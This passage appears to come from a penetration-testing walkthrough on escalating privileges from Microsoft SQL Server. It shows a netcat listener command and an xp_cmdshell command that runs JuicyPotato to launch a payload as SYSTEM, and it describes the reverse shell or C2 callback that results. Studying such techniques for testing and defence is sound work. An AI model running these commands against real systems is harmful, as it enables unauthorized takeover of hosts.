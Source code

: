 ### 1. Start Your Listener (if needed)
**Command:**
```bash
nc -lnvp 8443
```
### 2. Execute JuicyPotato from MSSQL via xp_cmdshell 

The below command runs **JuicyPotato** using a known COM listening port (**-l 53375**), specifies **cmd.exe** as the payload process with **foothold.exe** as its argument, and sets the token impersonation type to * for automatic detection and exploitation of available privileges.

**Command:**
```sql
EXEC xp_cmdshell 'C:\Users\Public\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\foothold.exe" -t *';
```
The image below shows **xp_cmdshell** being used to execute **JuicyPotato**, which in turn launches **foothold.exe** our payload used to establish a shell on the target system.

![JuicyPotatoExecuted](assets/images/mssql/executing-juicypotaot-attack.png)

Once executed, the payload (in this case, **foothold.exe**) runs with **SYSTEM-level privileges**, establishing a C2 callback or reverse shell as intended. The image below shows successful C2 communication being established after launching the attack from within **MSSQL** using **xp_cmdshell**

![ShellSessionEstablished](assets/images/mssql/High-prividged-C2-beacon.png)
